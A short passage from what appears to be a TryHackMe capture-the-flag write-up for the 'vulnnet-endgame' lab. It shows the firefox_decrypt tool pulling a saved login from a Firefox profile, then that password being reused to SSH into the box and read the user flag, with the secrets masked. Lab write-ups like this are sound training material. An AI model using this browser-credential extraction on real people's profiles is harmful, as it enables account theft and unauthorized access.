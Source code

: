 
<h2>Firefox Decrypt</h2>

<p>

- https://github.com/unode/firefox_decrypt/blob/main/firefox_decrypt.py</p>


```bash
:~/Desktop# python3 firefox_decrypt.py ~/Desktop/.mozilla/firefox/2fjnrwth.default-release
...
Username: 'chris_w@vulnnet.thm'
Password: '*****************'
```

<br>
<h2>system</h2>

```bash
:~# ssh system@xx.xxx.x.xx
system@xx.xxx.x.xx's password: *****************
Welcome to Ubuntu 18.04.6 LTS (GNU/Linux 5.4.0-120-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

0 updates can be applied immediately.

Ubuntu comes with ABSOLUTELY NO WARRANTY, to the extent permitted by
applicable law.

Your Hardware Enablement Stack (HWE) is supported until April 2023.

The programs included with the Ubuntu system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Ubuntu comes with ABSOLUTELY NO WARRANTY, to the extent permitted by
applicable law.

system@vulnnet-endgame:~$
```


```bash
system@vulnnet-endgame:~$ pwd
/home/system
```

```bash
system@vulnnet-endgame:~$ id
uid=1000(system) gid=1000(system) groups=1000(system)
```

```bash
system@vulnnet-endgame:~$ cat user.txt
THM{*******************************}
```
